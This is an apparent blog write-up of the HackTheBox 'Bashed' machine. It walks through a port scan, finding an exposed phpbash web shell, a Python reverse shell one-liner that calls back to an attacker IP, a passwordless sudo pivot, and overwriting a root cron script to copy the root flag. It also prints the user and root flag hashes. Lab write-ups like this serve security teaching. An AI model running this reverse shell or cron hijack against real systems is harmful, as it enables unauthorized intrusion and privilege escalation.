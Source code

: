 ```yaml
---
title: HackTheBox - Bashed
date: 2020-12-26 23:59:00 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/bashed/Bashed.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oN Bashed.txt 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.68
Host is up (0.098s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Apache/2.4.18 (port 80)

![Arrexel's Development Site](/assets/img/htb/machines/linux/easy/bashed/web-1.png)

![only post](/assets/img/htb/machines/linux/easy/bashed/web-2.png)

#### `dirb`

![dirb](/assets/img/htb/machines/linux/easy/bashed/dirb.png)

#### phpbash

As mentionned on the post we saw earlier &uarr;, [phpbash](https://github.com/Arrexel/phpbash) is running on `/dev`:

![phpbash](/assets/img/htb/machines/linux/easy/bashed/phpbash.png)

## reverse shell (`www-data`)

```bash
export RHOST="10.10.14.7";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

![reverse-shell](/assets/img/htb/machines/linux/easy/bashed/reverse-shell.png)

```bash
$ ls /home
arrexel  scriptmanager
```

We can read `user.txt` by the way:

```bash
$ cat /home/arrexel/user.txt
2c281f318555dbc1b856957c7147bfc1
```

Okay, so we identified two users:

1. `arrexel` 
2. `scriptmanager`

How about us?

```bash
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

The sudo config tells us that we can switch to `scriptmanager` without password.

## User #1 (scriptmanager)

```bash
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ find / -user $(whoami) 2>/dev/null | grep -v "^/proc"   
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout 
```

Let's inspect this `/scripts` directory:

```
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Dec 26 13:38 test.txt
scriptmanager@bashed:/scripts$ cat test.txt; echo ""
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

That's suspicious buddy. **root** own the file `test.txt`.

![suspicious gif](https://i.gifer.com/LQW.gif)

Moreover, the file is updated every minute (cronjob?). This implies that `test.py` is executed every minute also. 

More precisely by **root** because the script creates the file `test.txt` and it's owned by him:

![minute](/assets/img/htb/machines/linux/easy/bashed/minute.png)

## Root

Let's copy `root.txt` in `/tmp`:

```bash
$ echo "import os; os.system('cp /root/root.txt /tmp/flag'); os.system('chmod 444 /tmp/flag');" > test.py 
```

![flag](/assets/img/htb/machines/linux/easy/bashed/flag.png)

```bash
scriptmanager@bashed:/scripts$ cat /tmp/flag
cc4f0afe3a1026d402ba10329674a8e2
```